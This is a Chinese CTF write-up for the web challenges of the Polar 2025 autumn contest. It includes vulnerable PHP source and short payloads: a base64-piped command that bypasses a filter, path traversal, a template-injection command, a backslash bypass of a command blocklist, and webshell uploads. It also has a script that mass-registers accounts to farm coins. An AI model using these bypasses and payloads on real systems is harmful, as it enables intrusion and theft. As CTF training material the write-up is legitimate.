



# Polar2025秋季挑战赛web-writeup-先知社区

> **来源**: https://xz.aliyun.com/news/18956  
> **文章ID**: 18956

---

polar快递

在登录页面下载备忘录发现用户等级分四个，抓包发现有id=user，改为最高等级的root登录即可获取flag

## white

常规输入执行命令发现很多符号都被ban了`/[;&`$<>?\*[{}()#@!%]/`，发现管道符没被禁，base64也在白名单中，尝试用base64编码绕过

payload:

```
echo dGFjIC9mKg== | base64 -d | sh
```


## 俄罗斯方块

查看js源码发现在一个判断后会拉取get\_squirrt1e.php，访问即可


## vip

抓包发现参数vip=flase，改为true即可

## 代码审计

直接给了源码

```
<?php
$page = 'hello.php';
if (isset($_GET['page'])) {
    $page = $_GET['page'];
}

$base_dir = __DIR__ . '/pages/';
$target = $base_dir . $page;
if (preg_match('/https?:\/\//i', $page)) {
    echo "远程 URL 不允许呦。";
    exit;
}
if (file_exists($target)) {
    $content = file_get_contents($target);
    echo "<pre>" . htmlspecialchars($content, ENT_QUOTES|ENT_SUBSTITUTE, 'UTF-8') . "</pre>";
} else {
    if (@file_exists($page)) {
        $content = file_get_contents($page);
        echo "<pre>" . htmlspecialchars($content, ENT_QUOTES|ENT_SUBSTITUTE, 'UTF-8') . "</pre>";
    } else {
        echo "No!： " . htmlspecialchars($page);
    }
}
```

file\_get\_contents，尝试目录穿越拿flag

payload:

```
?page=../flag.txt
```

## PolarCMS

登录页面直接弱密码爆破或者用<闭合也能绕过，这里只要密码对了用户名无论是什么都能登录

登录进来发现能上传文件和上传新页面，先试了试上传文件，在/static/uploads/处访问发现都是文本类型的，没办法用文件上传做，主页说这是用纯java搭建的，尝试在创建页面的地方进行模版注入





payload:

```
${exec('cat /f*')}
```

## 狗黑子的舔狗日记

进去在'我'的页面发现url中page参数能读文件，尝试伪协议读取index.php，


解码

```
<?php
session_start();


define('PAGE_WECHAT', 'xiaoxi.php');
define('PAGE_MOMENTS', 'pengyouquan.php');
define('PAGE_PROFILE', 'wode.php');


$defaultPage = PAGE_MOMENTS;


$currentPage = $_SESSION['current_page'] ?? $defaultPage;


$allowedPages = [PAGE_WECHAT, PAGE_MOMENTS, PAGE_PROFILE];
if (isset($_GET['page']) && in_array($_GET['page'], $allowedPages)) {
    $currentPage = $_GET['page'];
    $_SESSION['current_page'] = $currentPage;
    chdir(dirname(__FILE__));
    $is_dangerous = false;
    if ($is_dangerous) {
        echo "只允许当前目录";
    }
}
if (isset($_GET['page'])) {
    $requestedPage = $_GET['page'];
    $baseDir = dirname(__FILE__);
    if (strpos($requestedPage, 'php://') === 0) {

        if (preg_match('/resource=([^&]+)/', $requestedPage, $matches)) {
            $resource = $matches[1];
            

            $resource = urldecode($resource);
            if (strpos($resource, '/') !== false || strpos($resource, '\') !== false || strpos($resource, '..') !== false) {
                die("不支持其他操作");
            }
            
            include($requestedPage);
            exit;
        }
    }
    
    $fullPath = realpath($baseDir . DIRECTORY_SEPARATOR . $requestedPage);
    if ($fullPath === false || dirname($fullPath) !== $baseDir) {
        die("不支持其他操作");
    }
    
    include($requestedPage);
    chdir(dirname(__FILE__));
    $is_dangerous = false;
    if ($is_dangerous) {
        echo "只允许当前目录";
    }
    exit; 
}
$flag='ZmxhZ3vlpbPnpZ7nmoTlkI3lrZdtZDXliqDlr4Z9CnRpcHMgIOWls+elnuW+ruS/oeWPt++8mm52c2hlbg==';
if (in_array($currentPage, $allowedPages)) {
    include($currentPage);
} else {
    include(PAGE_MOMENTS);
}

if (isset($_GET['action']) && $_GET['action'] === 'logout') {
    session_destroy();
    header('Location: src/denglu.php');
    exit;
}
?>

```

有个$flag继续base64解码

```
flag{女神的名字md5加密}
tips  女神微信号：nvshen
```

给了女神微信号，要登录女神微信找女神名字，扫目录发现[www.zip，是一个密码本，爆破登录女神微信，给狗黑子发个消息即可获得名字](http://www.zip，是一个密码本，爆破登录女神微信，给狗黑子发个消息即可获得名字)

## Squirtle的论坛

扫目录发现admin.php，访问提示无权限访问，在主页面有提示`master只能是Squirtle！！！`，尝试传参还有cookie`master=Squirtle`，传cookie可行，进入admin.php，传入一句话木马，即可执行命令



## 老刘的小店

注册登录发现要用10000金币换，每分钟只能获取三个金币，但是可以给其他账户传金币，写一个注册用户给指定用户传金币的脚本

```
import requests
import random
import string


def generate_random_string(length=6):
    # 定义字符集：小写字母 + 大写字母 + 数字
    characters = string.ascii_letters + string.digits

    # 使用系统安全的随机数生成器
    rng = random.SystemRandom()

    # 生成随机字符串
    return ''.join(rng.choice(characters) for _ in range(length))

user = generate_random_string()
session = requests.session()
i = 0

while True:
    #注册随机用户
    burp0_url = "http://d643033c-42d5-48c2-9fbc-4c5578e92a9b.www.polarctf.com:8090/register.php"
    burp0_data = {"username": user, "password": "asdasdasd"}
    res1 = session.post(burp0_url, data=burp0_data)

    #获取3个金币，加快速度
    burp1_url = "http://d643033c-42d5-48c2-9fbc-4c5578e92a9b.www.polarctf.com:8090/dashboard.php"
    burp1_data = {"get_coins": "100000000000000000"}
    session.post(burp1_url, data=burp1_data)

    #将4个金币传给指定用户
    burp2_data = {"transfer": "1", "to_user": "kkkkkk", "amount": "4"}
    session.post(burp1_url, data=burp2_data)
    print(f'已完成{i}次')
    i += 1
```

购买完后拿到老李的账号，看源码

```
if (isset($_GET['id'])) {
$id=$_GET['id'];
    if(preg_match("/ls|dir|flag|type|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|"|\`|;|,|\*|\?|\|\\|
|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\$|\[|\]|{|}|\(|\)|-|<|>/i",$id)) {
        $output = '你想干什么？';
    }else{
     system($id);
    }
```

在这里有个小知识，在过滤的`|\\|\\\\|`这个部分，由于php对于转义符的解析

在字符串中进行了一次解析，`\\`被解析为`\`，`\\\\`被解析为`\\`

再经过正则表达式解析也就是perg\_match的解析，`\|`被解析为`|`，`\\`被解析为`\`

最终正则表达式就变成了`||\|`，所以实际上就是过滤了`|\`，因此可以使用`\`进行绕过

参考:<https://www.cnblogs.com/hetianlab/p/18124378>

payload:

```
?id = ca\t /fl\ag
```

## 狗黑子的eval

有点抽象了

扫目录发现flag.php和shell.php，访问flag.php看源码,提示

```
<!--payload.php 狗黑子数数喜欢从1开始，不喜欢0 -->

 tips:gouheizigouheizi=2gouheizi
```

payload.php

```
<?php 
highlight_file(__FILE__);
//gou=a,gougou=b;
$gou1="12gou";$gou5="16gou";$gou4="5gou";$gou6="gou";
$gou2="22gou";$gou3="15gou";
$gou7="c3Rnbw==";
$gou8='5pys572R6aG15piv5LiA5Liq5zyo57q/5bel5YW377yM5Y+v5Lul5oqK5a2X56ym5Liy6L2s5oiQIEJhc2U2NCDmiJbogIXku44gQmFzzTY0IOi9rOaIkOaIkOWtl+espuS4s';
$gou13=$gou8{34};$gou17=$gou8{10};$gou12=$gou8{15};$gou10=$gou8{105};$gou14=$gou12;$gou11=$gou8{51};

$gou=$gou4.$gou2.$gou6.$gou1.$gou5.$gou3.$gou7.$gou8.$gou11.$gou13.$gou17.$gou12.$gou10.$gou14;
?> 
```

注释提示gou=a，gougou=b，也就是2gou=b，那么3gou=c，以此类推，感觉不像web题

把gou全都换掉

```
<?php
highlight_file(__FILE__);
//gou=a,gougou=b;
$gou1="l";$gou5="p";$gou4="e";$gou6="a";
$gou2="v";$gou3="o";
$gou7="c3Rnbw==";
$gou8='15pys572R6aG15piv5LiA5Liq5zyo57q/5bel5YW377yM5Y+v5Lul5oqK5a2X56ym5Liy6L2s5oiQIEJhc2U2NCDmiJbogIXku44gQmFzzTY0IOi9rOaIkOaIkOWtl+espuS4s';
$gou13=$gou8[34];$gou17=$gou8[10];$gou12=$gou8[15];$gou10=$gou8[105];$gou14=$gou12;$gou11=$gou8[51];

$gou=$gou4.$gou2.$gou6.$gou1.$gou5.$gou3.$gou7.$gou8.$gou11.$gou13.$gou17.$gou12.$gou10.$gou14;
ehco $gou;
//evalpoc3Rnbw==15pys572R6aG15piv5LiA5Liq5zyo57q/5bel5YW377yM5Y+v5Lul5oqK5a2X56ym5Liy6L2s5oiQIEJhc2U2NCDmiJbogIXku44gQmFzzTY0IOi9rOaIkOaIkOWtl+espuS4subaizi
```

`$gou7`base64解码一下是`stgo`，前面就变成了`evalpostgo`，后面截取gou8之后的`ubaizi`(不知道为什么，莫名其妙)

合起来是`evalpostgoubaizi`，推测应该是shell.php里面的参数，然后用蚁剑连接，发现查看目录权限不够，用蚁剑的工具绕过执行命令即可

## 狗黑子的登录

扫目录发现有很多.git，用githacker试一下拿到了index.php和admin.php

index.php

```
<?php
session_start();

if (isset($_SESSION['logged_in']) && $_SESSION['logged_in'] === true) {
    header('Location: admin.php');
    exit;
}


if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['seclients_can_register'])) {
    $registerValue = $_POST['seclients_can_register'];
    // 明确处理0和1两种情况
    if ($registerValue == 1) {
        $_SESSION['show_register'] = true;  
    } elseif ($registerValue == 0) {
        $_SESSION['show_register'] = false; 
    }
}

// 处理登录
$error = '';
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['login'])) {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    
    require 'config.php';
    
    if (isset($users[$username]) && $users[$username] === $password) {
        $_SESSION['logged_in'] = true;
        $_SESSION['username'] = $username;
        header('Location: admin.php');
        exit;
    } else {
        $error = '用户名或密码不正确';
    }
}
?>
```

admin.php

```
<?php
session_start();

if (!isset($_SESSION['logged_in']) || $_SESSION['logged_in'] !== true) {
    header('Location: index.php');
    exit;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && iasset($_POST['seclients_can_upload']) && $_POST['seclients_can_upload'] == 1) {
    $_SESSION['show_upload'] = true;
}

$upload_message = '';
if (isset($_SESSION['show_upload']) && $_SESSION['show_upload'] === true && $_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['file'])) {
    $target_dir = "uploads/";
    if (!file_exists($target_dir)) {
        mkdir($target_dir, 0777, true);
    }
    
    $target_file = $target_dir . basename($_FILES["file"]["name"]);
    $uploadOk = true;
    

    if ($_FILES["file"]["size"] < 200 * 1024) {
        $upload_message = "文件太小了。";
        $uploadOk = false;
    }
    

    $image_types = array('image/jpeg', 'image/png', 'image/gif', 'image/webp');
    $file_type = $_FILES["file"]["type"];
    
    if (!in_array($file_type, $image_types)) {
        $upload_message = "只允许上传图片文件 (JPG, PNG, GIF, WEBP)。";
        $uploadOk = false;
    }
    

    if ($uploadOk && move_uploaded_file($_FILES["file"]["tmp_name"], $target_file)) {
        $upload_message = "文件 " . htmlspecialchars(basename($_FILES["file"]["name"])) . " 上传成功。";
    } elseif ($uploadOk) {
        $upload_message = "文件上传失败。";
    }
}
?>
```

在index.php传参seclients\_can\_register=1注册登录

admin.php中是一个简单的文件上传，只验证了文件类型，改成image/png上传php文件即可执行命令

## ZGZH

用python写一个User序列化的脚本，然后提示pass，访问pass.php验证密码，传857.00E+000即可
